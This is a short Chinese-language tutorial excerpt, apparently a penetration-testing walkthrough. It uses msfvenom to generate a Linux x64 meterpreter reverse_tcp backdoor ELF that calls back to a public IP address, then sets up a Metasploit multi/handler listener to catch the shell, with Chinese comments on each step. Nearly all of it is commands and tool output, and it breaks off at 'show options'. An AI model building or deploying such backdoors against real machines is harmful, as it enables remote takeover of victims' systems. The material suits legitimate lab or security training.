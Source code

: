 ![image-20211015171521863](assets/image-20211015171521863.png)



生成后门

```
┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ msfvenom -a x64  --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=175.24.115.4 LPORT=8003 -b "\x00" -f elf -o xuegod
Found 4 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=55, char=0x00)
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 175 (iteration=0)
x64/xor chosen with final size 175
Payload size: 175 bytes
Final size of elf file: 295 bytes
Saved as: xuegod
```



开始利用：

```shell
┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ sudo msfdb run                         #启动msfdb
msf6 > use exploit/multi/handler             #使用监听模块
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp   #设置反弹shell的payload
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 172.31.50.101       #设置本机ip为监听ip
LHOST => 172.31.50.101
msf6 exploit(multi/handler) > show options                     #查看详情

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


```